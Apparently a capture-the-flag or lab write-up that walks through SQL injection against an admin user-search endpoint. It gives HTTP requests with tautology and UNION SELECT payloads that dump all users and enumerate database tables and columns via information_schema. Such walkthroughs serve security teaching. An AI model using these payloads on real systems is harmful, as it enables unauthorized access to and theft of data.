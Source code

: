 #### SQL injection in user search

Lets work from the top down so first we'll investigate the search users function.

```http
POST /admin/search.php HTTP/1.1

term=1
```

|ID|User|
|---|---|
|1|admin|

We can try a basic SQL injection here

```http
POST /admin/search.php HTTP/1.1

term%3d1'+or+'1'%3d'1
```

|ID|User|
|---|---|
|1|admin|
|2|gio|
|10|luckolen|

By sending the payload `term=1' or '1'='1` we don't only return the record where ID=1, but we return all records in that table.

A list of all users is interesting, but even more interesting is reading data from other tables.

```http
POST /admin/search.php HTTP/1.1

term%3d1'%2bunion%2bselect%2b'a','b','c
```

`term=1' union select 'a','b','c` will show `a` and `b` in the result table because the original SQL query also expects to get 3 columns and our UNION query matches that.

##### Finding all tables

The `information_schema.columns` table has the name of all tables and columns in the database.

```http
POST /admin/search.php HTTP/1.1

term=1'%2bunion%2bselect%2bconcat(table_name,'%3a',column_name),'b','c'+from+information_schema.columns+where+'1'%3d'1
```

|ID|User|
|---|---|
|balance:id|b|
|balance:userid|b|
|balance:amount|b
|hold:id|b
|hold:userIdFrom|b|
|hold:userIdTo|b|
|hold:amount|b|
|hold:comment|b|